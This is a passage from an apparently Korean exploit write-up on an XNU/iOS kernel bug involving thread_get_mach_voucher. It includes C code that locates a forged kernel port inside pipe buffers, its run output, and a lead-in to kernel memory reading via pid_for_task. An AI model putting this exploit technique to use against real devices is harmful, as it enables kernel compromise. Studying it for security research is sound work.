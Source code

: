 `thread_get_mach_voucher` 함수를 호출하면서
`ipc_object_copyin`(osfmk/kern/thread.c:3063) 
→ `ipc_right_copyin`(osfmk/ipc/ipc_object.c:517) 함수에서 
`port->ip_srights++;` (osfmk/ipc/ipc_right.c:2008) 코드가 수행된다.

`ip_srights` 값을 비교하여
여러 파이프들 중에 fakeport(즉, 우리의 new fake_voucher 중 `iv_port`에 속한 파이프) 인덱스를 확인한다.

```c
/* find the index of the pipe buffer our fakeport overlapped with */
    int fakeport_pipe_index = 0;
    for (int i = 0; i < total_pipes; i++)
    {
        int rfd = pipefds[2 * i];
        size_t readsz = read(rfd, pipebuf, pagesize - 1);
        
        if (readsz != pagesize - 1)
        {
            INFO("failed to read idx %d\n", i);
            continue;
        }

        kport_t *iter_port = (kport_t *)pipebuf;
    
        if (iter_port->ip_srights != fakeport->ip_srights)
        {
            INFO("found our fakeport: %d\n", i);
            INFO("ip_srights: %d\n", iter_port->ip_srights);
            fakeport_pipe_index = i;

            int wfd = pipefds[2 * i + 1];
            write(wfd, pipebuf, pagesize);
        
            break;
        }
    }

    if (fakeport_pipe_index == 0)
    {
        INFO("failed to find fakeport pipe idx\n"); exit(1);
    }

    INFO("fakeport pipe index: %d\n", fakeport_pipe_index);
```

```c
[*] found our fakeport: 255
[*] ip_srights: 100
[*] fakeport pipe index: 255
```

### 파이프에 쓰인 fakeport를 제어하고 pid_for_task 함수로 커널 읽기
